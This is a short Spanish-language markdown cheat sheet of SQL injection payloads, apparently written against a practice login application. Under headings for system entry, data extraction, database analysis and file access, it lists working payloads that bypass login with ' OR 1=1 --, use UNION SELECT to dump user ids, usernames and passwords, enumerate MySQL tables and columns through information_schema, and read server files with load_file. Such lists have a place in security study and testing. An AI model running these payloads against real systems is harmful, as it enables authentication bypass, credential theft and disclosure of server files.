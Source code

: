# Entrada al sistema

### Primer usuario
    ' OR 1=1 -- 

### Usuario ignorando contraseña
    ' OR usuario = 'adios' -- 

# Obtención de datos

### Extracción de listado de usuarios
    ' UNION SELECT 1 id, 'hola' usuario, 1 contraseña, GROUP_CONCAT(usuario) nombre FROM usuarios -- 

### Extracción de listado de ids, usuarios, contraseñas y nombres
    ' UNION SELECT 1 id, 'hola' usuario, 1 contraseña, GROUP_CONCAT(id, ':', usuario, ':', contraseña, ':', nombre) nombre FROM usuarios -- 

# Análisis de la base de datos

### Obtener usuario de conexión a MySQL y la base de datos actual
    ' UNION SELECT 1 id, 'hola' usuario, 1 contraseña, CONCAT(USER(), ':', DATABASE()) nombre -- 

### Obtener listado de tablas de la base de datos
    ' UNION SELECT 1 id, 'hola' usuario, 1 contraseña, GROUP_CONCAT(TABLE_NAME) nombre FROM information_schema.tables WHERE TABLE_SCHEMA = 'basededatos' -- 

### Obtener listado de campos y tipo de una tabla
    ' UNION SELECT 1 id, 'hola' usuario, 1 contraseña, GROUP_CONCAT(COLUMN_NAME, ':', DATA_TYPE) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'basededatos' AND TABLE_NAME = 'tabla' -- 

# Acceso a archivos

### Abrir contenido de archivos
    ' UNION SELECT 1 id, 'hola' usuario, 1 contraseña, load_file("/home/ubuntu/workspace/login.php") nombre -- 
